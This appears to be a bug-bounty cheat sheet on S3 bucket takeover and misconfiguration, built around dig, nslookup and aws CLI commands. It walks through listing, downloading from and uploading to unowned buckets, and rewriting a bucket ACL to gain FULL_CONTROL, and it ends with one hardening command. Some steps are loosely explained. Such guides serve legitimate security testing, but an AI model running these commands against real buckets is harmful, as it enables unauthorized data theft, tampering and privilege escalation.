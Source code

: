 
# Cloud domain structure

The cloud domain looks something like this: `https://example.s3-website-us-west-2.amazonaws.com`
- **example** → Bucket name.
- **s3-website** → Proof that it is linked to the cloud (persistent).
- **us-west-2** → Region.
- **amazonaws.com** → The hosting cloud.

## Using `dig` command to identify CNAME

We use the `dig` command first to identify the CNAME of the subdomain so that if it doesn't exist, we can perform a Subdomain Takeover.

```bash
dig example.com
dig sub.example.com
dig CNAME sub.example.com   # To get bucket name from the subdomain.
```

### Extracting AWS CNAMEs from a file

If you have a file containing multiple links and want to extract only those with a CNAME associated with AWS, use the following command:

```bash
dig -f [filename] CNAME | grep aws   # Replace [filename] with the actual file name.
```

## What if you don't find the CNAME?

### Answer:
- Check the IPs that appeared. If they belong to the 50 range, like 52 or 54, then they are associated with Amazon AWS.
- Use the `nslookup` command to determine which bucket it is exactly linked to, or check here: [AWS IP Ranges](https://ip-ranges.amazonaws.com/ip-ranges.json)

```bash
nslookup <TargetIP>   # it might show you the CNAME but not the Bucket name, Go to Case (2).
```

## Two possibilities

1. The domain isn't in use.
2. The domain is in use.

## Case (1): The domain isn't in use

- If you find that the domain isn't in use, buy it and report the Subdomain Takeover vulnerability.

## Case (2): The domain is in use

- If you find that the domain is in use, try the following commands to interact with the server:

```bash
aws s3 ls s3://<Bucket_name> --region <Cloud_domain_region>   # Execute the ls command on the server.
```

- If you run `nslookup example.com`, and the Bucket name doesn't appear, use the main domain instead:

```bash
aws s3 ls s3://<Main_domain> --region <Cloud_domain_region>   # You can use --no-sign-request flag if you don't have AWS keys.
```

- After executing this command, if multiple files appear and you want to access one of them, append it to the bucket name (e.g., `s3://bucket_name/file`).

## Vulnerability name: S3-Bucket-Listing

### Downloading a file from the server

If you want to download a copy of a file from the server to your device, use:

```bash
aws s3 cp s3://Bucket_name/filename /your/path   # From the server to your device.
```

- Replace `Bucket_name` with the actual bucket name and `filename` with the file you want to download, `/your/path` with the directory where you want to download the file.

### Uploading a file to the server

If you want to upload a file from your device to the server:

```bash
aws s3 cp /your/path/filename s3://Bucket_name/   # From your device to the server.
```

- Replace `/your/path/filename` with the file you want to upload and `Bucket_name` with the actual bucket name.

### Checking bucket permissions

To check the permissions of a specific bucket:

```bash
aws s3api get-bucket-acl --bucket <Bucket_name>
```

This will display the authorized users (Grantees) who have permissions on the S3 bucket and their permission types (e.g., READ, WRITE, FULL_CONTROL).

### Modifying bucket permissions

By default, the file is named `acl.json`, so we will download it to our device and modify `WRITE_ACP` to `FULL_CONTROL` to gain access to the server:

```bash
aws s3api get-bucket-acl --bucket <Bucket_name> >> acl.json   # Download from the server.
aws s3api put-bucket-acl --bucket <Bucket_name> --access-control-policy file://acl.json   # Upload to the server.
```

### See active buckets worldwide

To see all active buckets right now, visit: [Gray Hat Warfare Buckets](https://buckets.grayhatwarfare.com)

## How to prevent an S3 Bucket from being public?

To block public access:

```bash
aws s3api put-public-access-block --bucket <BUCKET_NAME> --public-access-block-configuration BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true
```
